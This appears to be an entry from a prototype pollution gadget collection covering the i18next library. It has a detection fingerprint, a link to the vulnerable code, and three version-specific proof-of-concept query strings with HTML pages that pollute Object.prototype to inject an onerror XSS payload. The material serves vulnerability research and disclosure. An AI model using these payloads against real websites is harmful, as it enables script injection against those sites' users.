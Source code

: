 ## i18next

### URL

https://www.i18next.com/

### JS Fingerprint

```js
return (typeof i18next !== 'undefined')
```

### Vulnerable code fragment

https://github.com/i18next/i18next/blob/ff587340dc39c2ddc8871c02e91ba5b2a8dca1bd/src/Translator.js#L99

### PoC

In this case, XSS is not performed directly. Depends on where the translated string is used.

#### i18next, Replacing all translations with namespace<xss>key

```
?__proto__[lng]=cimode&__proto__[appendNamespaceToCIMode]=x&__proto__[nsSeparator]=<img/src/onerror%3dalert(1)>
```

```html
<div id="output"/>
<script src="https://cdnjs.cloudflare.com/ajax/libs/i18next/20.2.1/i18next.min.js"></script>
<script>
    Object.prototype.lng='cimode'
    Object.prototype.appendNamespaceToCIMode='x'
    Object.prototype.nsSeparator='<img/src/onerror=alert(1)>'
</script>
<script>
i18next.init({
    fallbackLng: 'en',
  resources: {
    en: {
      translation: {
        "key": "hello world"
      }
    }
  }
}, function(err, t) {
  document.getElementById('output').innerHTML = i18next.t('key');
});
</script>
```

#### i18next < 19.8.5, Replacing all translations

```
?__proto__[lng]=a&__proto__[a]=b&__proto__[obj]=c&__proto__[k]=d&__proto__[d]=<img/src/onerror%3dalert(1)>
```

```html
<div id="output"/>
<script src="https://cdnjs.cloudflare.com/ajax/libs/i18next/19.8.4/i18next.min.js"></script>
<script>
    Object.prototype.lng='a'
    Object.prototype.a='b'
    Object.prototype.obj='c'
    Object.prototype.k='d'
    Object.prototype.d='<img/src/onerror=alert(1)>'
</script>
<script>
i18next.init({
    fallbackLng: 'en',
  resources: {
    en: {
      translation: {
        "key": "hello world"
      }
    }
  }
}, function(err, t) {
  document.getElementById('output').innerHTML = i18next.t('key');
});
</script>
```

#### i18next >= 19.8.5, Replacing {{key}} translation

```
?__proto__[lng]=a&__proto__[key]=<img/src/onerror%3dalert(1)>
```

```html
<div id="output"/>
<script src="https://cdnjs.cloudflare.com/ajax/libs/i18next/19.8.5/i18next.min.js"></script>
<script>
    Object.prototype.lng='a'
    Object.prototype.key='<img/src/onerror=alert(1)>'
</script>
<script>
i18next.init({
    fallbackLng: 'en',
  resources: {
    en: {
      translation: {
        "key": "hello world"
      }
    }
  }
}, function(err, t) {
  document.getElementById('output').innerHTML = i18next.t('key');
});
</script>
```